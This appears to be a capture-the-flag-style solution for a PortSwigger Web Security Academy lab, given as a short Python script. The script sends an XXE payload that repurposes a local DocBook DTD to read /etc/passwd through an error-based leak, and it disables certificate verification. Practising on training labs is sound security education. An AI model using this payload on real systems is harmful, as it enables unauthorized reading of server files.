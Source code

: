 # Lab: Exploiting XXE to retrieve data by repurposing a local DTD

Link to lab: https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd

## Solution
```python
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

headers = {
    'Host': '0a70007b04d2f9edc1da8f6700110070.web-security-academy.net',
    'Content-Type': 'application/xml',
}

data = '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [\r\n<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">\r\n<!ENTITY % ISOamso \'\r\n<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">\r\n<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">\r\n&#x25;eval;\r\n&#x25;error;\r\n\'>\r\n%local_dtd;\r\n]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>'

response = requests.post(
    'https://0a70007b04d2f9edc1da8f6700110070.web-security-academy.net/product/stock',
    headers=headers,
    data=data,
    verify=False,
)

print(response.text)
```